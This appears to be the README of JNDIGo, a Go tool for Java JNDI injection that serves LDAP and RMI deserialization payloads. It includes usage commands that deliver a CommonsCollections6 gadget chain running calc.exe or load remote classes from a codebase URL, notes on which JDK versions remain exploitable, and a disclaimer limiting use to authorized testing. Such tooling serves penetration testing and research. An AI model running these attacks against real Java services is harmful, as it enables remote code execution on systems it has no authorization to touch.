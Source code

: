 # JNDIGO

## Usage

example:
```
#ldap
./JNDIGo ldap -l
./JNDIGo ldap 127.0.0.1 6666 CommonsCollections6 calc.exe
./JNDIGo ldap 127.0.0.1 6666 factory com.example.remote http://localhost:8080/

#rmi
./JNDIGo rmi -l
./JNDIGo rmi 127.0.0.1 6666 CommonsCollections6 calc.exe
./JNDIGo rmi 127.0.0.1 6666 factory com.example.remote http://localhost:8080/
```

## Feature

- 支持两条在高版本jdk下仍然可用的的反序列化攻击路径 JRMP Listener/LDAP Deserialize
- 支持codebase远程加载类的payload LDAP jdk<8u191 / RMI jdk<7u21、6u45 或者远端开启对应的codebase权限
- 采用golang 从数据流层面解析，无需java环境，无需下载ysoserial.jar

## 感谢

4ra1n师傅的(gososerial)[https://github.com/4ra1n/Gososerial]

## 免责申明

未经授权许可使用JNDIGo攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的